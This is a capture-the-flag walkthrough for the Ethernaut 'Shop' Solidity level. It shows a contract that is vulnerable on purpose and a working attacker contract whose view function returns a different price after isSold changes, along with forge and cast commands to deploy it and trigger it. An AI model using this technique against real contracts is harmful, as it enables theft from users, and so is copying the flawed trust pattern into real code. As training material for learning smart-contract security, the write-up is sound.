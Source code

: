 ## Shop Level Outline

**Difficulty : 4/10**

Сan you get the item from the shop for less than the price asked?

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x3aCd4766f1769940cA010a907b3C8dEbCe0bd4aB)

## Solution

Simmilar solution to level 11_Elevator. We need to make a function that returns two different values the first and second time that it is called.

Functions with the **view modifier** cannot modify state so we need to monitor the Shop contract for when the boolean `isSold` changes and return a different value based on when it equals true or false.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Buyer {
    Shop shop;

    constructor(address _shop) {
        shop = Shop(_shop);
    }

    function attack() public {
        shop.buy();
    }

    function price() external view returns (uint) {
        return shop.isSold() ? 1 : 100;
    }
}

interface Shop {
    function isSold() external view returns (bool);
    function buy() external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Buyer --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "attack()" --gas 90000 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

### [:arrow_left: Back To Main Menu](../)
